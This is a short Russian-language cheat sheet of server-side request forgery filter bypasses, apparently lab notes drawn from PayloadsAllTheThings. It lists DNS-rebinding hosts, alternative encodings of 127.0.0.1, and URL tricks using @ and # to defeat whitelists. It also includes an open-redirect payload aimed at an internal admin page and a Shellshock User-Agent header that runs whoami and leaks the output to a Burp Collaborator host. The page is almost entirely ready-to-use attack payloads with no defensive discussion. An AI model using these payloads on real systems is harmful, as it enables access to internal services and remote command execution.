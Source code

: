 [PayloadsAllTheThings/Server Side Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#blind-ssrf)
## Защита чёрного списка

### DNS rebinding
- make-1.2.3.4-rebind-127.0-0.1-rr.1u.ms
- double.terjanq.me
- 7f000001.2223367c.rbndr.us
### Альтернативное представление IP-адреса
127.0.0.1:
1. 2130706433 - десятичная система счисления
2. 017700000001
3. 127.1
4. spoofed.burpcollaborator.net
5. localhost
6. 0177.0.0.1
7. \[::ffff:127:0:0:1]
8. 0.0.0.0
### URL-кодировки и разные варианты регистра
### Замена https на http и наоборот

## Защита белого списка

### Вставка учётных данных в URL-адрес перед именем хоста, используя символ @:
1. https://ожидаемый-хост:какойтоПароль@зловредный-хост
### Использование символа # для обозначения якоря в URL:
1. https://зловредный-хост#ожидаемый-хост
### Использование иерархии DNS-имён, чтобы поместить необходимые входные данные в полное DNS-имя, которым можно управлять
1. https://ожидаемый-хост.зловредный-хост
### URL кодировки
### Всё вместе:
1. http://localhost:80#@stock.weliketoshop.net/admin
## Open redirect
`stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=1%26path=http://192.168.0.68/admin`

## Blind SSRF
### Shell Shock
User-Agent: `() {:;}; $(whoami).burpcollaborator.net`
Referer: `http://192.168.0.$1$`